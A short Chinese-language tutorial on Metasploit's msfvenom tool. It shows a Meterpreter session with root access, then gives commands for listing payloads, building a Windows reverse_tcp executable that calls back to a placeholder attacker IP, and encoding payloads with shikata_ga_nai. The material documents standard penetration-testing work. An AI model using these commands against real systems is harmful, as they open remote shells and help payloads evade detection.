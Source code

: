 ```
[+] Deleted /tmp/.ubhkqc
[*] Meterpreter session 2 opened (10.10.10.10:5555 -> 10.10.10.102:36030) at 2025-02-26 07:36:19 +0000

meterpreter > sysinfo 
Computer     : 10.10.10.102
OS           : Debian 11.1 (Linux 5.10.0-9-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```

---

Msfvenom是Metasploit框架中用于生成攻击载荷（payload）和编码（encoding）的工具。

#### 生成 payload

生成 payload 必须使用 `-p` 和 `-f` 两个参数：



`-p`参数：指定要生成的payload类型

查看所有可用 payload：

```
./msfvenom -l payloads
```

`-p` 也支持通过 `-` 读取自定义payload：

```
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
```



`-f` 参数：指定payload输出格式

```
./msfvenom -p windows/meterpreter/bind_tcp -f exe
```



典型使用案例：

```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=[攻击者IP] LPORT=4444 -f exe -o /tmp/my_payload.exe
```



#### 编码Payload

当使用`-b`（坏字符过滤）参数时，编码功能会自动启用。其他情况下需通过`-e`显式指定编码器：

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

